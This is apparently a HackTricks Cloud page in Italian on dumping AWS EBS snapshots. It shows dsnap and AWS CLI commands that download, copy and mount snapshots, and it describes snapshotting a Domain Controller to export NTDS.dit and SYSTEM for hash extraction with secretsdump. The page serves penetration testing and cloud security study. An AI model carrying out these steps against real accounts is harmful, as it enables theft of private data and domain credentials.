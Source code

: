 # AWS - Dump di Snapshot di EBS

<details>

<summary><strong>Impara l'hacking su AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

### Verifica di uno snapshot in locale
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
**Nota** che dsnap non ti permetterà di scaricare snapshot pubblici. Per aggirare questo problema, puoi fare una copia dello snapshot nel tuo account personale e scaricarlo da lì:
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
Per ulteriori informazioni su questa tecnica, controlla la ricerca originale su [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Puoi farlo con Pacu utilizzando il modulo [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

### Verifica di uno snapshot in AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Montalo in una VM EC2 sotto il tuo controllo** (deve essere nella stessa regione della copia del backup):

Passaggio 1: Creare un nuovo volume della dimensione e del tipo preferiti dirigendoti su EC2 –> Volumi.

Per poter eseguire questa azione, segui questi comandi:
- Crea un volume EBS da allegare all'istanza EC2.
- Assicurati che il volume EBS e l'istanza siano nella stessa zona.

Passaggio 2: Selezionare l'opzione "allega volume" facendo clic con il tasto destro sul volume creato.

Passaggio 3: Selezionare l'istanza dalla casella di testo dell'istanza.

Per poter eseguire questa azione, utilizza il seguente comando:
- Allega il volume EBS.

Passaggio 4: Accedi all'istanza EC2 e elenca i dischi disponibili utilizzando il comando `lsblk`.

Passaggio 5: Verifica se il volume contiene dati utilizzando il comando `sudo file -s /dev/xvdf`.

Se l'output del comando precedente mostra "/dev/xvdf: data", significa che il volume è vuoto.

Passaggio 6: Formatta il volume al filesystem ext4 utilizzando il comando `sudo mkfs -t ext4 /dev/xvdf`. In alternativa, puoi utilizzare anche il formato xfs utilizzando il comando `sudo mkfs -t xfs /dev/xvdf`. Nota che dovresti utilizzare ext4 o xfs.

Passaggio 7: Crea una directory a tua scelta per montare il nuovo volume ext4. Ad esempio, puoi utilizzare il nome "newvolume".

Per poter eseguire questa azione, utilizza il comando `sudo mkdir /newvolume`.

Passaggio 8: Monta il volume nella directory "newvolume" utilizzando il comando `sudo mount /dev/xvdf /newvolume/`.

Passaggio 9: Cambia directory nella directory "newvolume" e controlla lo spazio disco per convalidare il mount del volume.

Per poter eseguire questa azione, utilizza i seguenti comandi:
- Cambia directory in `/newvolume`.
- Controlla lo spazio disco utilizzando il comando `df -h .`. L'output di questo comando dovrebbe mostrare lo spazio libero nella directory "newvolume".

Puoi fare ciò con Pacu utilizzando il modulo `ebs__explore_snapshots`.

### Verifica di uno snapshot in AWS (usando cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

### Copia ombra

Qualsiasi utente AWS che possiede il permesso **`EC2:CreateSnapshot`** può rubare gli hash di tutti gli utenti di dominio creando uno **snapshot del Domain Controller**, montandolo su un'istanza da loro controllata ed **esportando il file NTDS.dit e il registro di sistema SYSTEM** per l'uso con il progetto secretsdump di Impacket.

Puoi utilizzare questo strumento per automatizzare l'attacco: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) oppure potresti utilizzare una delle tecniche precedenti dopo aver creato uno snapshot.


# Riferimenti
* https://devopscube.com/mount-ebs-volume-ec2-instance/

<details>

<summary><strong>Impara l'hacking AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di github.

</details>
